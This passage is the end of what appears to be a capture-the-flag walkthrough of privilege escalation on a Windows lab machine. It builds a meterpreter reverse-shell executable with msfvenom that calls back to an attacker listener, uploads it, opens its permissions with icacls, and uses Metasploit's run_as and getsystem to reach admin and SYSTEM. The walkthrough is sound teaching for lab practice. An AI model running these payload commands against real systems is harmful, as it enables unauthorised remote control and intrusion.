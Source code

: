 Now, the final step is to see what kind of privileges the user, mayor has. Let's create another payload and upload it to the target machine, then we can try to run it as mayor:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6500 -f exe -o rTCP.exe
```
```bash
upload rTCP.exe .
```
We also need to make sure that rTCP.exe can be run by everyone, let's use icacls for that:
```bash
icacls rTCP.exe /grant Everyone:(F)
```
Now, we are ready to configure our multi handler first and then run_as modules:

![Final Exp](finalRootExp.png)
![Runas](msfconsolerunas.png)

After running the last module, we'll receive a meterpreter session and if we check the user id and privileges, we'll see that we have admin privileges:

![Admin User](adminUser.png)

Now, we can go to Desktop and look for the root flag:

![Root Flag](rootFlag.png)

Since we are admin, we can try to become the system by using ```getsystem``` command:

![Getsystem](getsystem.png)

That was a long journey and I hope you enjoyed this walkthrough.
Thank you for reading.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)

